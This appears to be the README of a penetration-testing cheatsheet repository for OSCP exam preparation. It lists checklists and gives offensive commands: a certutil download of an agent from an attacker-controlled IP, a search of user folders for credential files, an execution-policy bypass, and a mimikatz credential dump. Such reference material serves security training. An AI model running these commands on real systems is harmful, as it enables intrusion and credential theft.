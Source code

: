 # Penetration Testing Checklists and Cheatsheets

This repository contains various checklists and cheatsheets to aid in penetration testing and preparing for the Offensive Security OSCP exam.

## Table of Contents

1. [Commands Cheat Sheet](#commands-cheat-sheet)
2. [General Checklists](#general-checklists)
   - [General Checklist Before Starting](#general-checklist-before-starting)
   - [General Checklist for Web Applications](#general-checklist-for-web-applications)
3. [Detailed Checklists](#detailed-checklists)
   - [Web Application Pre-Authentication Checklist](#web-application-pre-authentication-checklist)
   - [Web Application Directory Enumeration Checklist](#web-application-directory-enumeration-checklist)
   - [Web Application Login Checklist](#web-application-login-checklist)
   - [Finding Vulnerabilities and Exploits Checklist](#finding-vulnerabilities-and-exploits-checklist)
   - [Network Discovery and Port Scan Checklist](#network-discovery-and-port-scan-checklist)
   - [Active Directory General Checklist](#active-directory-general-checklist)
   - [Active Directory with Credentials Checklist](#active-directory-with-credentials-checklist)
   - [Active Directory without Credentials Checklist](#active-directory-without-credentials-checklist)
   - [Active Directory Kerberos Checklist](#active-directory-kerberos-checklist)
   - [Active Directory Lateral and Vertical Movement Checklist](#active-directory-lateral-and-vertical-movement-checklist)
   - [Privilege Escalation Windows Checklist](#privilege-escalation-windows-checklist)
   - [Privilege Escalation Linux Checklist](#privilege-escalation-linux-checklist)
   - [Ligolo-ng Checklist](#ligolo-ng-checklist)

---

## Commands Cheat Sheet

### Full TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ls='ls -arlht --color=auto'
stty columns 200 rows 200
```

### Windows PowerShell Commands
EXECUTION POLICY

```
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
powershell -ExecutionPolicy Bypass -File .\PowerView.ps1
```

```
Get-ChildItem -Path "./*" -Include "*" -Recurse -ErrorAction SilentlyContinue

```
Get-ChildItem -Path "C:\Users\*" -Include "flag.txt", "local.txt", "user.txt", "password.txt", "proof.txt", "credentials.txt" -Recurse -ErrorAction SilentlyContinue
```

```
certutil -split -urlcache -f http://192.168.123.100:8000/agent.exe agent.exe
```

```
.\mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred" "exit"

```

